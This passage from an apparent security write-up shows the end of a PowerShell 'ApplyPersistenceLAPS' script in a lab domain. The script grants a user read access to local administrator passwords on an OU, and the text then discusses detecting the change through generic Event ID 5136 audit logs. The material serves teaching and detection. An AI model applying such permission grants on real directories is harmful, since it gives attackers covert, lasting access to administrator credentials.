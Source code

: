 ```powershell
        }
        If (!$error)
        {
            Write-Host -ForegroundColor Green ("INFORMATION: Granted the group " + $objGroup.Name + " permissions to read local administrator password on OU " + $objOU)
        }
    }
    $user = Get-aduser lillie_gardner
    $ou = Get-ADOrganizationalUnit 'OU=TEMP,OU=LAPS Testing,DC=badblood,DC=com'
    $in = 'Descendents'
    ReadcomputerAdmPwd -objGroup $user -objOU $ou -inheritanceType $in
}

ApplyPersistenceLAPS
```
 
Simply because this code may be new to you, doesn't mean the code isn’t already in the hands of well funded attackers.

Is not as simple to reverse the effects of an attacker. If you happen to have AD auditing on, and if you happen to audit permission changes on all sub OUs, guide here, searching for these events in real time or post incident is a bit mundane and tiresome.

There are no specific permissions identified in the alert. The record shows a very generic event.

Category: Directory Service Changes
Description: A directory service object was modified.
 

Here is a generating event on the DC

```
Log Name:      Security
Source:        Microsoft-Windows-Security-Auditing
Date:          2/3/2020 9:44:39 PM
Event ID:      5136
Task Category: Directory Service Changes
Level:         Information
Keywords:      Audit Success
User:          N/A
Computer:      BadBlood-dc1.badblood.com
Description:
A directory service object was modified.
	
Subject:
	Security ID:		BADBLOOD\Administrator
	Account Name:		Administrator
	Account Domain:		BADBLOOD
	Logon ID:		0x7EDDD

Directory Service:
	Name:	badblood.com
	Type:	Active Directory Domain Services
	
Object:
	DN:	OU=TEMP,OU=LAPS Testing,DC=badblood,DC=com
	GUID:	OU=TEMP,OU=LAPS Testing,DC=badblood,DC=com
	Class:	organizationalUnit
	
Attribute:
	LDAP Display Name:	nTSecurityDescriptor
	Syntax (OID):	2.5.5.15
```